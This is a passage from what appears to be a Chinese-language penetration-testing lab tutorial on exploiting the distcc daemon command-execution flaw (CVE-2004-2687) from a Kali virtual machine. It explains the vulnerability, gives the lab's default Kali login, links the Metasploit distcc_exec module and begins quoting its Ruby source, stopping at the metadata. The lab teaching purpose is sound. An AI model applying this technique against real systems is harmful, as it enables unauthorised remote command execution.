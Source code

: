 注意由于虚拟机启动需要时间，大概要等四分钟左右我们就可以使用 SSH 访问两台虚拟机了。

首先使用 SSH 连接到 Kali，我们大部分的攻击操作都需要在 Kali 虚拟机中进行，注意用户名root，密码 toor 是不显示的，使用命令 `ssh root@kali` 即可，因为当前实验环境中已经把 IP 地址和主机名的对应写入到了 `/etc/hosts` 文件中，避免输入不好记的 IP 地址：

![图片描述](../imgs/1479890676283.png-wm_3.png)

现在两台实验环境都已经启动，我们可以开始渗透测试实验了。

## 三、 渗透测试

### 3.1 渗透扫描

Distcc 服务漏洞原理：

> Distcc用于将大规模的代码放到网络服务器上的分布式编译，但是如果配置不严格，容易被滥用执行命令，该漏洞是 XCode 1.5 版本及其他版本的 distcc 2.x 版本配署对于服务器端口的访问不限制造成的。

简单的说就是服务对端口和执行的任务检查不够严格，从而造成攻击者可以利用分布式的编译任务执行自己想要执行的命令。

漏洞索引：

+ [CVE-2004-2687](http://www.cvedetails.com/cve/cve-2004-2687)
+ [OSVDB-13378](https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec#)


漏洞攻击模块代码：

+ [exploit/unix/misc/distcc_exec](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/misc/distcc_exec.rb)


漏洞攻击模块代码解析：

```
...

# 创建 Metasploit 攻击模块类
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp
  
  # 初始化模块，设定攻击模块的名称，描述，作者，License及漏洞索引等信息
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'DistCC Daemon Command Execution',
      'Description'    => %q{
        This module uses a documented security weakness to execute
        arbitrary commands on any system running distccd.
      },
      'Author'         => [ 'hdm' ],
      'License'        => MSF_LICENSE,
      'References'     =>
```
